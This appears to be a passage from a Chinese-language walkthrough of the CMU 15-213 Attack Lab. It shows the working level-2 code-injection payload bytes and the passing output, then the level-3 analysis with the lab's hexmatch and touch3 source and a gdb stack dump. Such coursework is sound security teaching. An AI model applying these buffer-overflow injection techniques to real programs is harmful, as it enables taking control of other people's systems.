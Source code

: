 ```common
➜  target1 ./hex2raw<level2.txt >level2-raw.txt
➜  target1 ./ctarget -q <level2-raw.txt
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:2:48 8B 3C 25 E4 44 60 00 68 EC 17 40 00 C3 FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF EC 17 40 00 00 00 00 00 78 DC 61 55 00 00 00 00
```
顺利通过
#### phase_3
实验3相比实验2又增加了一个要求，要求传入的不是cookie数字，而是一个cookie字符串,实验材料ctarget里面有一个hexmatch函数来进行比较
```cpp
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval)
{
  char cbuf[110];
  /* Make position of check string unpredictable */
  char *s = cbuf + random() % 100;
  sprintf(s, "%.8x", val);
  return strncmp(sval, s, 9) == 0;
}
void touch3(char *sval)
{
  vlevel = 3;
  /*Part of validation protocol */
  if (hexmatch(cookie,sval)) {
    printf("Touch3!:You called touch3(\"%s\")\n", sval);
    validate(3);
  } else {
    printf("Misfire:You called touch3(\"%s\")\n", sval);
    fail(3);
  }
  exit(0);
}
```
我们可以看到touch3接受一个字符串指针，而hexmatch则有两个参数val和sval，这个函数比较val和sval字符串表示的数字的值是否一致。　　　

**cookie对于每一个人都是一致的，没必要在代码中进行val到sval的转化，直接硬编码**
因为没看清这一点，浪费了大量的时间。接着我们看到实验报告的advice里面提到，在hexmatch中可能会对栈区进行一部分数值改变，要谨慎的选择存放的位置。那么我们直接来看一下到底哪一些部分被改变了！　　
打上断点首先看一下初始栈状况(hexmatch之前)
```common
0x5561dc88:	0x55685fe8	0x00000000	0x00000002	0x00000000
0x5561dc98:	0x00401916	0x00000000	0x55586000	0x00000000
0x5561dca8:	0x00000000	0x00000000	0x00401f24	0x00000000
0x5561dcb8:	0x00000000	0x00000000	0xf4f4f4f4	0xf4f4f4f4
0x5561dcc8:	0xf4f4f4f4	0xf4f4f4f4	0xf4f4f4f4	0xf4f4f4f4
0x5561dcd8:	0xf4f4f4f4	0xf4f4f4f4	0xf4f4f4f4	0xf4f4f4f4
0x5561dce8:	0xf4f4f4f4	0xf4f4f4f4	0xf4f4f4f4	0xf4f4f4f4
0x5561dcf8:	0xf4f4f4f4	0xf4f4f4f4	0xf4f4f4f4	0xf4f4f4f4
0x5561dd08:	0xf4f4f4f4	0xf4f4f4f4	0xf4f4f4f4	0xf4f4f4f4
0x5561dd18:	0xf4f4f4f4	0xf4f4f4f4	0xf4f4f4f4	0xf4f4f4f4
0x5561dd28:	0xf4f4f4f4	0xf4f4f4f4	0xf4f4f4f4	0xf4f4f4f4
0x5561dd38:	0xf4f4f4f4	0xf4f4f4f4	0xf4f4f4f4	0xf4f4f4f4
0x5561dd48:	0xf4f4f4f4	0xf4f4f4f4	0xf4f4f4f4	0xf4f4f4f4
0x5561dd58:	0xf4f4f4f4	0xf4f4f4f4	0xf4f4f4f4	0xf4f4f4f4
0x5561dd68:	0xf4f4f4f4	0xf4f4f4f4	0xf4f4f4f4	0xf4f4f4f4
```
改变之后我们看看
```common
```